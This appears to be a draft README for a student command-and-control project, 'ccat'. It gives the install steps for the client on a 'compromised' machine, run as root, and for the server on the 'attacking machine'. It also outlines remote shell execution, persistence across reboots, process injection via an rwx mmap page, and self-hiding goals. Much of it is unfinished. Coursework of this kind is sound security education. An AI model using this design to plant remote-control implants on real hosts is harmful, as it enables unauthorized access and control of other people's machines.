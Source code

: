 # C2 Project Submission
## Installation
First, install pip using the instructions [here](https://pip.pypa.io/en/stable/installation/#get-pip-py).

Install the pycryptodome package using pip and download the relevant repo code.
On the client (compromised week 4) machine, run the following as root:
```shell
pip install pycryptodome
pip install pyelftools
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/client.py -o client.py
```

# **where should they install????????**
And likewise, run the following on the attacking machine:
```shell
pip install pycryptodome
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/server.py -o server.py
```


## Testing
To test that ccat works, run the server from the command machine (`python server.py`)
and then run the client process (`python client.py`) on the compromised machine,
or just reboot it after the installation process. To change configuration
options like your IP address, see the first two lines of `configuration.py` and
make sure you change this in both the *client and server* copies! :~)

One thing to note is that if you want to run a process in another directory, you
need to run *cd /absolute/path/name && process_name*. That is, you can't change
the current working directory of the shell (because each one is run as another
process).[^1]

[^1]: So you can technically change the working directory, but it'll be the
working directory of the currently running process. So the next command you run
won't be affected. If I had more time, I could flesh this out using the os.cwd()
function.

- add in pictures, gifs
- RUN THE SERVER BFORE THE CLIENT!!!
- cannot cd and expect the client to remember -- need to do cd && whatever other command

## How ccat works
### Process Injection
To figure out what the pid is for the shell (bash) processes, run `pgrep sh`. To
figure out that of the current shell, look at the value of `$$`.
```shell
python client_setup.py $$
```
This creates a rwx page (via the mmap syscall) so that our program can more
easily inject code.

## Requirement Completion
### Remote shell access to host
ccat uses the `subprocess` python library with the `shell=True` to run commands
sent from the server as shell commands.

### Persist across reboots

### Configuration for where to get commands

### Authenticate communication

### Attempt to hide itself

## Detecting ccat
You could detect ccat by paying for Tripwire. :~)

Other options include

## Resources & Credit
copy & paste from readme later